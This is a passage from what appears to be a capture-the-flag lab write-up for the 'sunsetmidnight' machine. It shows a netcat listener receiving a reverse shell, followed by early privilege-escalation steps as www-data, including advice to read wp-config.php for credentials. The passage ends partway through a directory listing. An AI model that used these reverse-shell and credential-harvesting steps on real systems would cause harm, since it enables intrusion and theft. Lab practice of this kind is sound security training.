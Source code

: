 ![](../../assets/images/susnetmidnight_reload_page.png)

Check nc listener.

    ┌──(kali㉿kali)-[/mnt/hgfs/Cyber/proving_grounds/sunsetmidnight]
    └─$ nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [192.168.45.162] from (UNKNOWN) [192.168.173.88] 50468
    /bin/sh: 0: can't access tty; job control turned off
    $ 

----------------------------------------------------------------------------------------------------------------------------------------------------

# Priv-esc

Now that we have a foothold we need to escalate to root priviledges.

A quick whoami revealls that we are the `www-data` user.

A quick `pwd` reveals that we are currently in the root worpress site directory

    $ pwd
    /var/www/html/wordpress

On machines with wordpress sites it is always a good idea to check the `wp-config.php` file for user credentials.

A quick `ls -la` reveals the contents of the directory including `wp-config.php`.

    $ ls -la
    total 220
    drwxr-x---  5 www-data www-data  4096 Jul 18  2020 .        
    drwxr-xr-x  3 root     root      4096 Jul 16  2020 ..       
    -rw-r--r--  1 www-data www-data   461 Jul 16  2020 .htaccess  
    -rw-r-----  1 www-data www-data   499 Jul 18  2020 index.php  
    -rw-r-----  1 www-data www-data 19915 Feb 12  2020 license.txt    
    -rw-r-----  1 www-data www-data  7278 Jan 10  2020 readme.html    
    -rw-r-----  1 www-data www-data  6912 Feb  6  2020 wp-activate.php   
    drwxr-x---  9 www-data www-data  4096 Jun 10  2020 wp-admin            
    -rw-r-----  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php  
    -rw-r-----  1 www-data www-data  2332 Jun  2  2020 wp-comments-post.php
    -rw-r-----  1 www-data www-data  3197 Jul 18  2020 wp-config.php
    drwxr-x---  6 www-data www-data  4096 Jul 28 06:42 wp-content 
    -rw-r-----  1 www-data www-data  3940 Feb  6  2020 wp-cron.php      